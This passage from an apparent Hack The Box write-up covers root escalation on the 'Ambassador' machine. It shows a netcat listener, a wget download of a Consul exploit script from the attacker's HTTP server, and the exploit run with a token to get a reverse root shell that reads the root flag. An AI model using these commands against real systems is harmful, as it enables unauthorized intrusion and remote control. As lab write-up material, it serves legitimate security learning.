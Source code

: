 ```
nc -lvnp 4444
```

After that, I started a python server to transfer my python exploit to the victim machine using the command `python3 -m http.server 8000`. I Download the python script using `wget http://your_ip:8000/consul-exploit.py`.

Once I ran the exploit, I got a message to check my listener.

```
developer@ambassador:/tmp$ python3 consul-exploit.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.94 --lport 4444 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener
```

After this message, I checked my listener and I had a root shell.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Ambassador]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.11.183] 60826
bash: cannot set terminal process group (28061): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# whoami
whoami
root
```

Grabbing the `root` flag.

```
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
[REDACTED]
```
